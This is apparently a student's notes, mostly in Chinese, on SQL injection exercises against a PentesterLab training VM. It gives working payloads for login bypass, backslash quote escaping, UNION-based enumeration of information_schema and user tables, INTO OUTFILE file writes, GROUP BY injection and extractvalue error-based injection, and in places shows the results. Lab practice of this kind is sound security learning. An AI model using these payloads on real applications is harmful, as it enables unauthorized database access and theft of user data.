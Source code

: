 # SQL injections

## Example 1
`cqq' or 1=1 --`不行,难道只能用#来注释掉后面的语句吗？
哦不是，--也可以，只是要多一个空格
即`cqq' or 1=1 -- ` ，这样就可以注释掉后面的password字段的语句，就不会造成错误了。

`cqq' or 1=1 #`也可以。

## Example 2
`cqq' or 1=1 limit 1#`
为什么要用limit? 
这样使MySQL值传回第一行数据
参考：http://wiki.jikexueyuan.com/project/sql/top-clause.html
MySQL 支持 LIMIT 子句，用以取回有限数量的记录，而 Oracle 则使用 ROWNUM 子句来实现这一功能。
在MySQL中`SELECT * FROM CUSTOMERS LIMIT 3;`相当于在Oracle中`SELECT TOP 3 * FROM CUSTOMERS;`

## Example 3
这题会过滤单引号，于是在username字段上填`\`，刚好可以把sql语句中夹在username的值之间的两个单引号中后面那个注释掉，
然后在password字段中填写`or 1=1 #`，变成
`SELECT * FROM users WHERE username = '\' AND password = 'or 1=1 #'`
这样`\`后面的单引号就被转义了，而`\' AND password =`整个变成了username的值，然后用or 1=1满足逻辑判断，再用#注释掉后面剩下的单引号

## Example 4
-> In this example, the developer puts part of the query directly in a parameter. It's really rare in traditional web applications but can sometimes be found in web services, especially for mobile applications. You are injecting directly in the `WHERE` statement and can manipulate the request to retrieve anything you want.

由它给出的url http://192.168.170.131/sqlinjection/example4/?req=username='hacker'
`http://192.168.170.131/sqlinjection/example4/?req=username='' UNION SELECT version(),current_user(),3 #`
得到如下：
```
id	name
5.1.66-0+squeeze1	pentesterlab@localhost
```
![](img/屏幕快照\ 2017-03-31\ 下午8.16.23.png)

然后查询`table_schema`，</br>
`http://192.168.170.131/sqlinjection/example4/?req=username='' UNION SELECT table_schema,2,3 FROM information_schema.tables WHERE table_schema !='mysql' AND table_schema != 'information_schema'#`
得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午8.35.48.png)
而在我自己的ubuntu-14.04-server中得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午8.34.13.png)
然后查询`table_name`，</br>
`http://192.168.170.131/sqlinjection/example4/?req=username='' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema !='mysql' AND table_schema != 'information_schema'#`
得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午8.38.27.png)
即有`users`, `infos`, `companies`这些表。
然后查询`column_name` </br>
`http://192.168.170.131/sqlinjection/example4/?req=username='' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' #`
然而并没有成功。</br>
![](img/屏幕快照\ 2017-03-31\ 下午9.00.00.png)
然后查询所有使用者 </br>
`http://192.168.170.131/sqlinjection/example4/?req=username='' UNION SELECT id,username,3 FROM users`
得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午8.58.04.png)

## Example 5
`http://192.168.170.131/sqlinjection/example5/?limit=3 INTO OUTFILE '/home/pentesterlab/test' #`
尝试将sql查询结果写入文件
![](img/屏幕快照\ 2017-03-31\ 下午9.06.29.png)
发现没有写入权限

## Example 6
打开一看，发现url是这个
`http://192.168.170.131/sqlinjection/example6/?group=username`
然后发现有错误 </br>
![](img/屏幕快照\ 2017-03-31\ 下午9.08.38.png)
于是将`username`改成`id` </br>
即 `http://192.168.170.131/sqlinjection/example6/?group=id` 得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午9.10.59.png)
发现注入点为`GROUP BY`的参数，于是依然`UNION SELECT` </br>
`http://192.168.170.131/sqlinjection/example6/?group=id UNION SELECT version(),current_user(),3 #`
得到 </br>
![](img/屏幕快照\ 2017-03-31\ 下午9.15.19.png)

## Examle 7
`http://192.168.170.131/sqlinjection/example7/?id=1%20UNION%20SELECT%20extractvalue(%27%3Cxml%3E%27,concat(%22/%22,(select%20version())))`
回传了版本号
```
Mysql2::Error: XPATH syntax error: '5.1.66-0+squeeze1': SELECT * FROM users WHERE id=1 UNION SELECT extractvalue('<xml>',concat("/",(select version()))) 
```

## Examle 8
进入Example 8，直接url为`http://192.168.170.131/sqlinjection/example8/`.
然后看到一个`Internal Server Error`.
![](img/屏幕快照\ 2017-04-02\ 下午1.27.19.png)
然后官网说要先建立一个用户，然而我找不到在哪里注入。
